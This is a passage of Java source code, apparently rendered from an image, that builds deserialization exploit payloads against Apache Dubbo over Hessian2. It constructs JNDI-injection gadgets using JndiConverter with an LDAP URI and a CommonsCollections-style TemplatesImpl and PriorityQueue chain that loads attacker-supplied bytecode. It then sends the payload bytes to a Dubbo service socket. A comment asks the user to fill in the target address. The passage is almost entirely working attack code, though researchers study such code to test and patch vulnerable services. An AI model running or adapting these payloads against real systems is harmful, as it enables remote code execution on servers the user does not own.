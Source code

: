 ```java
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

        //todo 此处填写Dubbo服务地址及端口
        Socket socket = new Socket("127.0.0.1", 9999);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
    private static void getRawReturnPayload(Hessian2ObjectOutput out, String ldapUri) throws IOException {
        HashMap jndi = new HashMap();
        jndi.put("class", "org.apache.xbean.propertyeditor.JndiConverter");
        jndi.put("asText", ldapUri);
        out.writeObject(new Object[]{jndi});

        HashMap map = new HashMap();
        map.put("generic", "raw.return");
        out.writeObject(map);
    }

    private static void getBeanPayload(Hessian2ObjectOutput out, String ldapUri) throws IOException {
        JavaBeanDescriptor javaBeanDescriptor = new JavaBeanDescriptor("org.apache.xbean.propertyeditor.JndiConverter",7);
        javaBeanDescriptor.setProperty("asText",ldapUri);
        out.writeObject(new Object[]{javaBeanDescriptor});
        HashMap map = new HashMap();

        map.put("generic", "bean");
        out.writeObject(map);
    }

    private static void getNativeJavaPayload(Hessian2ObjectOutput out, String serPath) throws Exception, NotFoundException {
        //创建TemplatesImpl对象加载字节码
        byte[] code = ClassPool.getDefault().get("ysoserial.vulndemo.Calc").toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj,"_name","RoboTerh");
        setFieldValue(obj,"_class",null);
        setFieldValue(obj,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(obj,"_bytecodes",new byte[][]{code});

        //创建 ChainedTransformer实例
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{obj}),
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);

        //创建TranformingComparator 实例
        Comparator comparator = new TransformingComparator(chain);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, comparator);

```